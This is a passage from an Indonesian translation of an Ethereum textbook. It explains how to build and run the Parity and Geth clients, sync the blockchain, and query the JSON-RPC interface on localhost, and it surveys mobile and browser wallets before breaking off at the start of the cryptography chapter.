  * Ada beberapa aspek dari *blockchain* publik yang tidak dapat Anda uji secara realistis di *testnet*. Misalnya, biaya transaksi, meskipun diperlukan untuk mengirim transaksi, tidak menjadi pertimbangan di *testnet*, karena gas gratis. Lebih lanjut, *testnet* tidak mengalami kemacetan jaringan seperti yang terkadang terjadi pada *mainnet* publik.

### Kelebihan dan Kekurangan Simulasi Blockchain Lokal

Untuk banyak tujuan pengujian, opsi terbaik adalah meluncurkan *blockchain* pribadi satu instans. **Ganache** (sebelumnya bernama testrpc) adalah salah satu simulasi *blockchain* lokal paling populer yang dapat Anda gunakan untuk berinteraksi, tanpa peserta lain. Ini memiliki banyak kelebihan dan kekurangan yang sama dengan *testnet* publik, tetapi juga memiliki beberapa perbedaan.

**Kelebihan:**

  * Tidak ada sinkronisasi dan hampir tidak ada data di disk; Anda menambang blok pertama sendiri.
  * Tidak perlu mendapatkan *test ether*; Anda "memberi hadiah" pada diri sendiri berupa imbalan penambangan yang dapat Anda gunakan untuk pengujian.
  * Tidak ada pengguna lain, hanya Anda.
  * Tidak ada kontrak lain, hanya yang Anda sebarkan setelah Anda meluncurkannya.

**Kekurangan:**

  * Tidak adanya pengguna lain berarti perilakunya tidak sama dengan *blockchain* publik. Tidak ada persaingan untuk ruang transaksi atau urutan transaksi.
  * Tidak ada penambang selain Anda berarti penambangan lebih dapat diprediksi; oleh karena itu, Anda tidak dapat menguji beberapa skenario yang terjadi di *blockchain* publik.
  * Tidak adanya kontrak lain berarti Anda harus menyebarkan semua yang ingin Anda uji, termasuk dependensi dan pustaka kontrak.
  * Anda tidak dapat menciptakan kembali beberapa kontrak publik dan alamatnya untuk menguji beberapa skenario (misalnya, kontrak DAO).

### Menjalankan Klien Ethereum

Jika Anda memiliki waktu dan sumber daya, Anda harus mencoba menjalankan *full node*, meskipun hanya untuk mempelajari lebih lanjut tentang prosesnya. Di bagian ini kami membahas cara mengunduh, mengompilasi, dan menjalankan klien Ethereum Parity dan Geth. Ini memerlukan beberapa keakraban dengan penggunaan antarmuka baris perintah (*command-line interface*) pada sistem operasi Anda. Layak untuk menginstal klien-klien ini, baik Anda memilih untuk menjalankannya sebagai *full node*, sebagai *node testnet*, atau sebagai klien untuk *blockchain* pribadi lokal.

#### Kebutuhan Perangkat Keras untuk Full Node

Sebelum kita mulai, Anda harus memastikan Anda memiliki komputer dengan sumber daya yang cukup untuk menjalankan *full node* Ethereum. Anda akan memerlukan setidaknya **80 GB** ruang disk untuk menyimpan salinan penuh dari *blockchain* Ethereum. Jika Anda juga ingin menjalankan *full node* di *testnet* Ethereum, Anda akan memerlukan tambahan setidaknya **15 GB**. Mengunduh 80 GB data *blockchain* bisa memakan waktu lama, jadi disarankan agar Anda bekerja dengan koneksi internet yang cepat.

Sinkronisasi *blockchain* Ethereum sangat intensif dalam hal *input/output* (I/O). Sebaiknya Anda memiliki ***solid-state drive* (SSD)**. Jika Anda memiliki *hard disk drive* (HDD) mekanis, Anda akan memerlukan setidaknya **8 GB RAM** untuk digunakan sebagai *cache*. Jika tidak, Anda mungkin akan menemukan bahwa sistem Anda terlalu lambat untuk mengimbangi dan melakukan sinkronisasi penuh.

**Kebutuhan minimum:**

  * CPU dengan 2+ *core*
  * Ruang penyimpanan kosong setidaknya 80 GB
  * RAM minimal 4 GB dengan SSD, 8 GB+ jika Anda memiliki HDD
  * Layanan internet dengan kecepatan unduh 8 MBit/detik

Ini adalah persyaratan minimum untuk menyinkronkan salinan penuh (namun telah dipangkas/*pruned*) dari *blockchain* berbasis Ethereum.

Pada saat penulisan ini, basis kode Parity lebih ringan dalam penggunaan sumber daya, jadi jika Anda berjalan dengan perangkat keras terbatas, Anda kemungkinan akan melihat hasil yang lebih baik menggunakan Parity.

Jika Anda ingin melakukan sinkronisasi dalam waktu yang wajar dan menyimpan semua alat pengembangan, pustaka, klien, dan *blockchain* yang kita bahas dalam buku ini, Anda akan menginginkan komputer yang lebih mumpuni.

**Spesifikasi yang direkomendasikan:**

  * CPU cepat dengan 4+ *core*
  * RAM 16 GB+
  * SSD cepat dengan setidaknya 500 GB ruang kosong
  * Layanan internet dengan kecepatan unduh 25+ MBit/detik

Sulit untuk memprediksi seberapa cepat ukuran *blockchain* akan bertambah dan kapan ruang disk lebih banyak akan diperlukan, jadi disarankan untuk memeriksa ukuran terbaru *blockchain* sebelum Anda mulai melakukan sinkronisasi.

> Kebutuhan ukuran disk yang tercantum di sini mengasumsikan Anda akan menjalankan *node* dengan pengaturan default, di mana *blockchain* "dipangkas" (*pruned*) dari data *state* lama. Jika Anda menjalankan *node* "arsip" (*archival*) penuh, di mana semua *state* disimpan di disk, kemungkinan akan memerlukan lebih dari 1 TB ruang disk.

Tautan-tautan ini memberikan perkiraan terkini tentang ukuran *blockchain*:

  * [Ethereum](https://bitinfocharts.com/ethereum/)
  * [Ethereum Classic](https://bitinfocharts.com/ethereum%20classic/)

#### Kebutuhan Perangkat Lunak untuk Membangun dan Menjalankan Klien (Node)

Bagian ini membahas perangkat lunak klien Parity dan Geth. Ini juga mengasumsikan Anda menggunakan lingkungan baris perintah mirip Unix. Contoh-contoh menunjukkan perintah dan output seperti yang muncul pada sistem operasi Ubuntu GNU/Linux yang menjalankan *shell* bash (lingkungan eksekusi baris perintah).

Biasanya setiap *blockchain* akan memiliki versi Geth-nya sendiri, sementara Parity memberikan dukungan untuk beberapa *blockchain* berbasis Ethereum (Ethereum, Ethereum Classic, Ellaism, Expanse, Musicoin) dengan unduhan klien yang sama.

> Dalam banyak contoh di bab ini, kita akan menggunakan antarmuka baris perintah sistem operasi (juga dikenal sebagai "*shell*"), yang diakses melalui aplikasi "terminal". *Shell* akan menampilkan sebuah *prompt*; Anda mengetikkan perintah, dan *shell* merespons dengan beberapa teks dan *prompt* baru untuk perintah Anda berikutnya. *Prompt* mungkin terlihat berbeda di sistem Anda, tetapi dalam contoh berikut, itu ditandai dengan simbol **$**. Dalam contoh, ketika Anda melihat teks setelah simbol **$**, jangan ketik simbol **$** tetapi ketik perintah yang langsung mengikutinya (ditampilkan dalam **teks tebal**), lalu tekan Enter untuk menjalankan perintah tersebut. Dalam contoh, baris-baris di bawah setiap perintah adalah respons sistem operasi terhadap perintah itu. Ketika Anda melihat awalan **$** berikutnya, Anda akan tahu itu adalah perintah baru dan Anda harus mengulangi prosesnya.

Sebelum kita mulai, Anda mungkin perlu menginstal beberapa perangkat lunak. Jika Anda belum pernah melakukan pengembangan perangkat lunak di komputer yang sedang Anda gunakan, Anda mungkin perlu menginstal beberapa alat dasar. Untuk contoh-contoh berikut, Anda perlu menginstal **git**, sistem manajemen kode sumber; **golang**, bahasa pemrograman Go dan pustaka standarnya; dan **Rust**, sebuah bahasa pemrograman sistem.

Git dapat diinstal dengan mengikuti instruksi di [https://git-scm.com](https://git-scm.com).
Go dapat diinstal dengan mengikuti instruksi di [https://golang.org](https://golang.org).

> Persyaratan Geth bervariasi, tetapi jika Anda menggunakan Go versi 1.10 atau lebih tinggi, Anda seharusnya dapat mengompilasi versi Geth apa pun yang Anda inginkan. Tentu saja, Anda harus selalu merujuk pada dokumentasi untuk jenis Geth pilihan Anda.

> Versi golang yang terinstal di sistem operasi Anda atau tersedia dari manajer paket sistem Anda mungkin jauh lebih tua dari 1.10. Jika demikian, hapus dan instal versi terbaru dari [https://golang.org/](https://golang.org/).

Rust dapat diinstal dengan mengikuti instruksi di [https://www.rustup.rs/](https://www.rustup.rs/).

> Parity memerlukan Rust versi 1.27 atau lebih tinggi.

Parity juga memerlukan beberapa pustaka perangkat lunak, seperti OpenSSL dan libudev. Untuk menginstalnya pada sistem yang kompatibel dengan Ubuntu atau Debian GNU/Linux, gunakan perintah berikut:

`$ sudo apt-get install openssl libssl-dev libudev-dev cmake`

Untuk sistem operasi lain, gunakan manajer paket OS Anda atau ikuti instruksi Wiki untuk menginstal pustaka yang diperlukan.

Sekarang setelah Anda menginstal git, golang, Rust, dan pustaka yang diperlukan, mari kita mulai bekerja\!

### Parity

Parity adalah implementasi dari klien Ethereum *full-node* dan peramban DApp. Ini ditulis "dari awal" dalam Rust, sebuah bahasa pemrograman sistem, dengan tujuan membangun klien Ethereum yang modular, aman, dan dapat diskalakan. Parity dikembangkan oleh Parity Tech, sebuah perusahaan Inggris, dan dirilis di bawah lisensi perangkat lunak bebas GPLv3.

> Pengungkapan: Salah satu penulis buku ini, Dr. Gavin Wood, adalah pendiri Parity Tech dan menulis sebagian besar klien Parity. Parity mewakili sekitar 25% dari basis klien Ethereum yang terpasang.

Untuk menginstal Parity, Anda dapat menggunakan manajer paket Rust `cargo` atau mengunduh kode sumber dari GitHub. Manajer paket juga mengunduh kode sumber, jadi tidak banyak perbedaan antara kedua opsi tersebut. Di bagian selanjutnya, kami akan menunjukkan cara mengunduh dan mengompilasi Parity sendiri.

#### Menginstal Parity

Wiki Parity menawarkan instruksi untuk membangun Parity di berbagai lingkungan dan *container*. Kami akan menunjukkan cara membangun Parity dari sumber. Ini mengasumsikan Anda telah menginstal Rust menggunakan `rustup` (lihat “Kebutuhan Perangkat Lunak untuk Membangun dan Menjalankan Klien (Node)” di halaman 47).

	Pertama, dapatkan kode sumber dari GitHub:

`$ git clone https://github.com/paritytech/parity`

Kemudian pindah ke direktori `parity` dan gunakan `cargo` untuk membangun file *executable*:

`$ cd parity`
`$ cargo install`

Jika semuanya berjalan lancar, Anda akan melihat sesuatu seperti:

```
$ cargo install
Updating git repository `https://github.com/paritytech/js-precompiled.git`
Downloading log v0.3.7
Downloading isatty v0.1.1
Downloading regex v0.2.1
[...]
Compiling parity-ipfs-api v1.7.0
Compiling parity-rpc v1.7.0
Compiling parity-rpc-client v1.4.0
Compiling rpc-cli v1.4.0 (file:///home/aantonop/Dev/parity/rpc_cli)
Finished dev [unoptimized + debuginfo] target(s) in 479.12 secs
$
```

Coba jalankan `parity` untuk melihat apakah sudah terinstal, dengan memanggil opsi `--version`:

```
$ parity --version
Parity
version Parity/v1.7.0-unstable-02edc95-20170623/x86_64-linux-gnu/rustc1.18.0
Copyright 2015, 2016, 2017 Parity Technologies (UK) Ltd
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
By Wood/Paronyan/Kotewicz/Drwięga/Volf
Habermeier/Czaban/Greeff/Gotchac/Redmann
$
```

Bagus\! Sekarang Parity sudah terinstal, Anda dapat menyinkronkan *blockchain* dan memulai dengan beberapa opsi baris perintah dasar.

### Go-Ethereum (Geth)

Geth adalah implementasi bahasa Go yang dikembangkan secara aktif oleh Ethereum Foundation, sehingga dianggap sebagai implementasi "resmi" dari klien Ethereum. Biasanya, setiap *blockchain* berbasis Ethereum akan memiliki implementasi Geth-nya sendiri. Jika Anda menjalankan Geth, maka Anda harus memastikan Anda mengambil versi yang benar untuk *blockchain* Anda menggunakan salah satu tautan repositori berikut:

  * [Ethereum](https://github.com/ethereum/go-ethereum) (or go [https://geth.ethereum.org/](https://geth.ethereum.org/)))
  * [Ethereum Classic](https://github.com/ethereumproject/go-ethereum)
  * [Ellaism](https://github.com/ellaism/go-ellaism)
  * [Expanse](https://github.com/expanse-org/go-expanse)
  * [Musicoin](https://github.com/Musicoin/go-musicoin)
  * [Ubiq](https://github.com/ubiq/go-ubiq)

> Anda juga dapat melewati instruksi ini dan menginstal biner yang sudah dikompilasi (*precompiled binary*) untuk platform pilihan Anda. Rilisan yang sudah dikompilasi jauh lebih mudah untuk diinstal dan dapat ditemukan di bagian "releases" dari salah satu repositori yang tercantum di sini. Namun, Anda mungkin belajar lebih banyak dengan mengunduh dan mengompilasi perangkat lunak sendiri.

#### Melakukan Kloning Repositori

Langkah pertama adalah melakukan kloning repositori Git, untuk mendapatkan salinan kode sumber.

Untuk membuat klon lokal dari repositori pilihan Anda, gunakan perintah `git` sebagai berikut, di direktori *home* Anda atau di bawah direktori mana pun yang Anda gunakan untuk pengembangan:

`$ git clone <Tautan Repositori>`

Anda akan melihat laporan kemajuan saat repositori disalin ke sistem lokal Anda:

```
Cloning into 'go-ethereum'...
remote: Counting objects: 62587, done.
remote: Compressing objects: 100% (26/26), done.
remote: Total 62587 (delta 10), reused 13 (delta 4), pack-reused 62557
Receiving objects: 100% (62587/62587), 84.51 MiB | 1.40 MiB/s, done.
Resolving deltas: 100% (41554/41554), done.
Checking connectivity... done.
```

Bagus\! Sekarang Anda memiliki salinan lokal Geth, Anda dapat mengompilasi *executable* untuk platform Anda.

#### Membangun Geth dari Kode Sumber

Untuk membangun Geth, pindah ke direktori tempat kode sumber diunduh dan gunakan perintah `make`:

`$ cd go-ethereum`
`$ make geth`

Jika semuanya berjalan lancar, Anda akan melihat kompiler Go membangun setiap komponen hingga menghasilkan *executable* `geth`:

```
build/env.sh go run build/ci.go install ./cmd/geth
>>> /usr/local/go/bin/go install -ldflags -X main.gitCommit=58a1e13e6dd7f52a1d...
github.com/ethereum/go-ethereum/common/hexutil
github.com/ethereum/go-ethereum/common/math
github.com/ethereum/go-ethereum/crypto/sha3
github.com/ethereum/go-ethereum/rlp
github.com/ethereum/go-ethereum/crypto/secp256k1
github.com/ethereum/go-ethereum/common
[...]
github.com/ethereum/go-ethereum/cmd/utils
github.com/ethereum/go-ethereum/cmd/geth
Done building.
Run "build/bin/geth" to launch geth.
$
```

Mari kita pastikan `geth` berfungsi tanpa benar-benar menjalankannya:

```
$ ./build/bin/geth version
Geth
Version: 1.6.6-unstable
Git Commit: 58a1e13e6dd7f52a1d5e67bee47d23fd6cfdee5c
Architecture: amd64
Protocol Versions: [63 62]
Network Id: 1
Go Version: go1.8.3
Operating System: linux
[...]
```

Perintah `geth version` Anda mungkin menampilkan informasi yang sedikit berbeda, tetapi Anda akan melihat laporan versi yang mirip dengan yang terlihat di sini.

Jangan jalankan `geth` dulu, karena itu akan mulai menyinkronkan *blockchain* dengan “cara lambat” dan itu akan memakan waktu terlalu lama (berminggu-minggu). Bagian selanjutnya menjelaskan tantangan dengan sinkronisasi awal *blockchain* Ethereum.

### Sinkronisasi Pertama Blockchain Berbasis Ethereum

Biasanya, saat menyinkronkan *blockchain* Ethereum, klien Anda akan mengunduh dan memvalidasi setiap blok dan setiap transaksi sejak awal—yaitu, dari blok genesis.

Meskipun dimungkinkan untuk menyinkronkan *blockchain* sepenuhnya dengan cara ini, sinkronisasi akan memakan waktu sangat lama dan memiliki persyaratan sumber daya yang tinggi (akan membutuhkan lebih banyak RAM, dan akan memakan waktu sangat lama jika Anda tidak memiliki penyimpanan cepat).

Banyak *blockchain* berbasis Ethereum menjadi korban serangan *denial-of-service* (DoS) pada akhir tahun 2016. *Blockchain* yang terpengaruh akan cenderung sinkronisasi dengan lambat saat melakukan sinkronisasi penuh.

Misalnya, di Ethereum, klien baru akan membuat kemajuan pesat hingga mencapai blok 2.283.397. Blok ini ditambang pada 18 September 2016, dan menandai awal dari serangan DoS. Dari blok ini hingga blok 2.700.031 (26 November 2016), validasi transaksi menjadi sangat lambat, intensif memori, dan intensif I/O. Ini menghasilkan waktu validasi yang melebihi 1 menit per blok. Ethereum mengimplementasikan serangkaian peningkatan, menggunakan *hard fork*, untuk mengatasi kerentanan mendasar yang dieksploitasi dalam serangan DoS. Peningkatan ini juga membersihkan blockchain dengan menghapus sekitar 20 juta akun kosong yang dibuat oleh transaksi spam.

Jika Anda melakukan sinkronisasi dengan validasi penuh, klien Anda akan melambat dan mungkin memerlukan beberapa hari, atau bahkan lebih lama, untuk memvalidasi blok-blok yang terkena dampak serangan DoS. Untungnya, sebagian besar klien Ethereum menyertakan opsi untuk melakukan sinkronisasi "cepat" (*fast*) yang melewatkan validasi penuh transaksi hingga klien tersinkronisasi ke ujung *blockchain*, kemudian melanjutkan validasi penuh.

Untuk Geth, opsi untuk mengaktifkan sinkronisasi cepat biasanya disebut `--fast`. Anda mungkin perlu merujuk pada instruksi spesifik untuk rantai Ethereum pilihan Anda.

Parity melakukan sinkronisasi cepat secara default.

> Geth hanya dapat mengoperasikan sinkronisasi cepat saat memulai dengan database blok yang kosong. Jika Anda sudah mulai menyinkronkan tanpa mode cepat, Geth tidak dapat beralih. Lebih cepat menghapus direktori data *blockchain* dan memulai sinkronisasi cepat dari awal daripada melanjutkan sinkronisasi dengan validasi penuh. Berhati-hatilah agar tidak menghapus dompet apa pun saat menghapus data *blockchain*\!

#### Menjalankan Geth atau Parity

Sekarang setelah Anda memahami tantangan dari "sinkronisasi pertama," Anda siap untuk memulai klien Ethereum dan menyinkronkan *blockchain*. Baik untuk Geth maupun Parity, Anda dapat menggunakan opsi `--help` untuk melihat semua parameter konfigurasi. Selain menggunakan `--fast` untuk Geth, seperti yang dijelaskan di bagian sebelumnya, pengaturan default biasanya sudah masuk akal dan sesuai untuk sebagian besar penggunaan. Pilih cara mengonfigurasi parameter opsional apa pun sesuai kebutuhan Anda, lalu mulai Geth atau Parity untuk menyinkronkan rantai. Kemudian tunggulah…

> Sinkronisasi *blockchain* Ethereum akan memakan waktu mulai dari setengah hari pada sistem yang sangat cepat dengan banyak RAM, hingga beberapa hari pada sistem yang lebih lambat.

### Antarmuka JSON-RPC

Klien Ethereum menawarkan antarmuka pemrograman aplikasi (API) dan serangkaian perintah *Remote Procedure Call* (RPC), yang dikodekan sebagai *JavaScript Object Notation* (JSON). Anda akan melihat ini disebut sebagai **JSON-RPC API**. Pada dasarnya, JSON-RPC API adalah antarmuka yang memungkinkan kita menulis program yang menggunakan klien Ethereum sebagai gerbang ke jaringan dan *blockchain* Ethereum.

Biasanya, antarmuka RPC ditawarkan sebagai layanan HTTP pada port 8545. Untuk alasan keamanan, secara default dibatasi untuk hanya menerima koneksi dari `localhost` (alamat IP komputer Anda sendiri, yaitu 127.0.0.1).

Untuk mengakses JSON-RPC API, Anda dapat menggunakan pustaka khusus (ditulis dalam bahasa pemrograman pilihan Anda) yang menyediakan pemanggilan fungsi "stub" yang sesuai dengan setiap perintah RPC yang tersedia, atau Anda dapat secara manual membuat permintaan HTTP dan mengirim/menerima permintaan yang dikodekan dalam format JSON. Anda bahkan dapat menggunakan klien HTTP baris perintah generik, seperti `curl`, untuk memanggil antarmuka RPC. Mari kita coba. Pertama, pastikan Anda telah mengonfigurasi dan menjalankan Geth, lalu beralih ke jendela terminal baru (misalnya, dengan Ctrl-Shift-N atau Ctrl-Shift-T di jendela terminal yang ada) seperti yang ditunjukkan di sini:

```
$ curl -X POST -H "Content-Type: application/json" --data \
'{"jsonrpc":"2.0","method":"web3_clientVersion","params":[],"id":1}' \
http://localhost:8545
{"jsonrpc":"2.0","id":1,
"result":"Geth/v1.8.0-unstable-02aeb3d7/linux-amd64/go1.8.3"}
```

Dalam contoh ini, kita menggunakan `curl` untuk membuat koneksi HTTP ke alamat http://localhost:8545. Kita sudah menjalankan `geth`, yang menawarkan JSON-RPC API sebagai layanan HTTP pada port 8545. Kita menginstruksikan `curl` untuk menggunakan perintah HTTP `POST` dan untuk mengidentifikasi konten sebagai tipe `application/json`. Terakhir, kita memberikan permintaan yang dikodekan dalam format JSON sebagai komponen data dari permintaan HTTP kita. Sebagian besar baris perintah kita hanya untuk mengatur `curl` agar membuat koneksi HTTP dengan benar. Bagian yang menarik adalah perintah JSON-RPC sebenarnya yang kita keluarkan:

`{"jsonrpc":"2.0","method":"web3_clientVersion","params":[],"id":1}`

Permintaan JSON-RPC diformat sesuai dengan spesifikasi JSON-RPC 2.0. Setiap permintaan berisi empat elemen:

**`jsonrpc`**
Versi protokol JSON-RPC. Ini HARUS persis `"2.0"`.
**`method`**
Nama metode yang akan dipanggil.
**`params`**
Nilai terstruktur yang berisi nilai parameter yang akan digunakan selama pemanggilan metode. Anggota ini DAPAT dihilangkan.
**`id`**
Pengenal yang ditetapkan oleh klien yang HARUS berisi String, Angka, atau nilai NULL jika disertakan. Server HARUS membalas dengan nilai yang sama dalam objek respons jika disertakan. Anggota ini digunakan untuk menghubungkan konteks antara dua objek.

> Parameter `id` digunakan terutama saat Anda membuat beberapa permintaan dalam satu panggilan JSON-RPC, sebuah praktik yang disebut *batching*. *Batching* digunakan untuk menghindari *overhead* dari koneksi HTTP dan TCP baru untuk setiap permintaan. Dalam konteks Ethereum, misalnya, kita akan menggunakan *batching* jika kita ingin mengambil ribuan transaksi melalui satu koneksi HTTP. Saat melakukan *batching*, Anda menetapkan `id` yang berbeda untuk setiap permintaan dan kemudian mencocokkannya dengan `id` di setiap respons dari server JSON-RPC. Cara termudah untuk mengimplementasikan ini adalah dengan mempertahankan sebuah penghitung dan menaikkan nilainya untuk setiap permintaan.

Respons yang kita terima adalah:

`{"jsonrpc":"2.0","id":1, "result":"Geth/v1.8.0-unstable-02aeb3d7/linux-amd64/go1.8.3"}`

Ini memberitahu kita bahwa JSON-RPC API dilayani oleh klien Geth versi 1.8.0.

Mari kita coba sesuatu yang sedikit lebih menarik. Dalam contoh berikutnya, kita meminta API JSON-RPC untuk harga gas saat ini dalam wei:

```
$ curl -X POST -H "Content-Type: application/json" --data \
'{"jsonrpc":"2.0","method":"eth_gasPrice","params":[],"id":4213}' \
http://localhost:8545
{"jsonrpc":"2.0","id":4213,"result":"0x430e23400"}
```

Respons, `0x430e23400`, memberitahu kita bahwa harga gas saat ini adalah 18 gwei (gigawei atau miliar wei). Jika, seperti kami, Anda tidak berpikir dalam heksadesimal, Anda dapat mengubahnya menjadi desimal di baris perintah dengan sedikit trik `bash`:

`$ echo $((0x430e23400))`
`18000000000`

JSON-RPC API lengkap dapat diselidiki di wiki Ethereum.

#### Mode Kompatibilitas Geth pada Parity

Parity memiliki "mode kompatibilitas Geth" khusus, di mana ia menawarkan JSON-RPC API yang identik dengan yang ditawarkan oleh Geth. Untuk menjalankan Parity dalam mode ini, gunakan sakelar `--geth`:

`$ parity --geth`

### Klien Ethereum Jarak Jauh (Remote)

Klien jarak jauh menawarkan sebagian kecil dari fungsionalitas klien penuh. Mereka tidak menyimpan seluruh *blockchain* Ethereum, sehingga lebih cepat untuk disiapkan dan memerlukan penyimpanan data yang jauh lebih sedikit. Klien-klien ini biasanya menyediakan kemampuan untuk melakukan satu atau lebih dari hal berikut:

  * Mengelola kunci privat dan alamat Ethereum dalam sebuah dompet (*wallet*).
  * Membuat, menandatangani, dan menyiarkan transaksi.
  * Berinteraksi dengan *smart contract*, menggunakan *data payload*.
  * Menjelajahi dan berinteraksi dengan DApps.
  * Menawarkan tautan ke layanan eksternal seperti penjelajah blok (*block explorer*).
  * Mengonversi unit ether dan mengambil nilai tukar dari sumber eksternal.
  * Menyuntikkan (*inject*) instans `web3` ke dalam peramban web sebagai objek JavaScript.
  * Menggunakan instans `web3` yang disediakan/disuntikkan ke dalam peramban oleh klien lain.
  * Mengakses layanan RPC pada *node* Ethereum lokal atau jarak jauh.

Beberapa klien jarak jauh, misalnya dompet seluler (*smartphone*), hanya menawarkan fungsionalitas dompet dasar. Klien jarak jauh lainnya adalah peramban DApp yang lengkap. Klien jarak jauh umumnya menawarkan beberapa fungsi klien Ethereum *full-node* tanpa menyinkronkan salinan lokal dari *blockchain* Ethereum dengan terhubung ke *full node* yang dijalankan di tempat lain, misalnya, oleh Anda secara lokal di mesin Anda atau di server web, atau oleh pihak ketiga di server mereka.

Mari kita lihat beberapa klien jarak jauh paling populer dan fungsi yang mereka tawarkan.

#### Dompet Seluler (*Smartphone*)

Semua dompet seluler adalah klien jarak jauh, karena *smartphone* tidak memiliki sumber daya yang memadai untuk menjalankan klien Ethereum penuh. *Light client* sedang dalam pengembangan dan belum digunakan secara umum untuk Ethereum. Dalam kasus Parity, *light client* ditandai "eksperimental" dan dapat digunakan dengan menjalankan `parity` dengan opsi `--light`.

Dompet seluler populer termasuk yang berikut (kami mencantumkannya hanya sebagai contoh; ini bukan merupakan dukungan atau indikasi keamanan atau fungsionalitas dompet-dompet ini):

**Jaxx**
Dompet seluler multi-mata uang berdasarkan *mnemonic seed* BIP-39, dengan dukungan untuk Bitcoin, Litecoin, Ethereum, Ethereum Classic, ZCash, berbagai token ERC20, dan banyak mata uang lainnya. Jaxx tersedia di Android dan iOS, sebagai dompet *plug-in* peramban, dan sebagai dompet desktop untuk berbagai sistem operasi.

**Status**
Dompet seluler dan peramban DApp, dengan dukungan untuk berbagai token dan DApps populer. Tersedia untuk iOS dan Android.

**Trust Wallet**
Dompet seluler Ethereum dan Ethereum Classic yang mendukung token ERC20 dan ERC223. Trust Wallet tersedia untuk iOS dan Android.

**Cipher Browser**
Peramban DApp dan dompet seluler berkemampuan Ethereum yang berfitur lengkap yang memungkinkan integrasi dengan aplikasi dan token Ethereum. Tersedia untuk iOS dan Android.

#### Dompet Peramban (*Browser Wallet*)

Berbagai dompet dan peramban DApp tersedia sebagai *plug-in* atau ekstensi dari peramban web seperti Chrome dan Firefox. Ini adalah klien jarak jauh yang berjalan di dalam peramban Anda.

Beberapa yang lebih populer adalah MetaMask, Jaxx, MyEtherWallet/MyCrypto, dan Mist.

**MetaMask**
MetaMask, yang diperkenalkan di Bab 2, adalah dompet berbasis peramban yang serbaguna, klien RPC, dan penjelajah kontrak dasar. Ini tersedia di Chrome, Firefox, Opera, dan Brave Browser.
Tidak seperti dompet peramban lainnya, MetaMask menyuntikkan instans `web3` ke dalam konteks JavaScript peramban, bertindak sebagai klien RPC yang terhubung ke berbagai *blockchain* Ethereum (*mainnet*, *testnet* Ropsten, *testnet* Kovan, *node* RPC lokal, dll.). Kemampuan untuk menyuntikkan instans `web3` dan bertindak sebagai gerbang ke layanan RPC eksternal membuat MetaMask menjadi alat yang sangat kuat bagi pengembang dan pengguna. Ini dapat digabungkan, misalnya, dengan MyEtherWallet atau MyCrypto, bertindak sebagai penyedia `web3` dan gerbang RPC untuk alat-alat tersebut.

**Jaxx**
Jaxx, yang diperkenalkan sebagai dompet seluler di bagian sebelumnya, juga tersedia sebagai ekstensi Chrome dan Firefox dan sebagai dompet desktop.

**MyEtherWallet (MEW)**
MyEtherWallet adalah klien jarak jauh JavaScript berbasis peramban yang menawarkan:

  * Dompet perangkat lunak yang berjalan di JavaScript.
  * Jembatan ke dompet perangkat keras populer seperti Trezor dan Ledger.
  * Antarmuka `web3` yang dapat terhubung ke instans `web3` yang disuntikkan oleh klien lain (misalnya, MetaMask).
  * Klien RPC yang dapat terhubung ke klien penuh Ethereum.
  * Antarmuka dasar yang dapat berinteraksi dengan *smart contract*, dengan adanya alamat kontrak dan *application binary interface* (ABI).

MyEtherWallet sangat berguna untuk pengujian dan sebagai antarmuka ke dompet perangkat keras. Ini tidak boleh digunakan sebagai dompet perangkat lunak utama, karena terpapar ancaman melalui lingkungan peramban dan bukan sistem penyimpanan kunci yang aman.

> Anda harus sangat berhati-hati saat mengakses MyEtherWallet dan dompet JavaScript berbasis peramban lainnya, karena mereka sering menjadi target *phishing*. Selalu gunakan *bookmark* dan bukan mesin pencari atau tautan untuk mengakses URL web yang benar.

**MyCrypto**
Tepat sebelum publikasi buku ini, proyek MyEtherWallet terpecah menjadi dua implementasi yang bersaing, dipandu oleh dua tim pengembangan independen: sebuah “*fork*,” sebagaimana disebut dalam pengembangan sumber terbuka. Kedua proyek tersebut disebut MyEtherWallet (merek asli) dan MyCrypto. Pada saat perpecahan, MyCrypto menawarkan fungsionalitas yang identik dengan MyEtherWallet, tetapi kemungkinan kedua proyek akan berbeda seiring kedua tim pengembangan mengadopsi tujuan dan prioritas yang berbeda.

**Mist**
Mist adalah peramban berkemampuan Ethereum pertama, yang dibuat oleh Ethereum Foundation. Ini berisi dompet berbasis peramban yang merupakan implementasi pertama dari standar token ERC20 (Fabian Vogelsteller, penulis ERC20, juga merupakan pengembang utama Mist). Mist juga merupakan dompet pertama yang memperkenalkan *checksum* camelCase (EIP-55). Mist menjalankan *full node*, dan menawarkan peramban DApp penuh dengan dukungan untuk penyimpanan berbasis Swarm dan alamat ENS.

### Kesimpulan

Dalam bab ini kita menjelajahi klien Ethereum. Anda telah mengunduh, menginstal, dan menyinkronkan klien, menjadi peserta dalam jaringan Ethereum, dan berkontribusi pada kesehatan dan stabilitas sistem dengan mereplikasi *blockchain* di komputer Anda sendiri.

---

# BAB 4
## Kriptografi

Salah satu teknologi dasar Ethereum adalah **kriptografi**, yang merupakan cabang matematika yang digunakan secara luas dalam keamanan komputer. Kriptografi berarti “tulisan rahasia” dalam bahasa Yunani, tetapi studi tentang kriptografi mencakup lebih dari sekadar tulisan rahasia, yang disebut sebagai **enkripsi**. Kriptografi, misalnya, juga dapat digunakan untuk membuktikan pengetahuan tentang suatu rahasia tanpa mengungkapkan rahasia itu (misalnya, dengan **tanda tangan digital**), atau untuk membuktikan keaslian data (misalnya, dengan sidik jari digital, juga dikenal sebagai “**hash**”). Jenis-jenis bukti kriptografis ini adalah alat matematika yang sangat penting untuk pengoperasian platform Ethereum (dan, memang, semua sistem *blockchain*), dan juga digunakan secara luas dalam aplikasi Ethereum.

Perlu dicatat bahwa, pada saat publikasi ini, tidak ada bagian dari protokol Ethereum yang melibatkan enkripsi; artinya semua komunikasi dengan platform Ethereum dan antar-*node* (termasuk data transaksi) tidak dienkripsi dan dapat (dan memang harus) dibaca oleh siapa saja. Hal ini bertujuan agar semua orang dapat memverifikasi kebenaran pembaruan *state* dan konsensus dapat tercapai. Di masa depan, alat kriptografi canggih, seperti *zero knowledge proofs* dan enkripsi homomorfik, akan tersedia yang akan memungkinkan beberapa perhitungan terenkripsi untuk dicatat di *blockchain* sambil tetap memungkinkan konsensus; namun, meskipun persiapan telah dibuat untuknya, alat-alat tersebut belum diterapkan.

Dalam bab ini kita akan memperkenalkan beberapa kriptografi yang digunakan di Ethereum: yaitu **kriptografi kunci publik (PKC)**, yang digunakan untuk mengontrol kepemilikan dana, dalam bentuk kunci privat dan alamat.

### Kunci dan Alamat

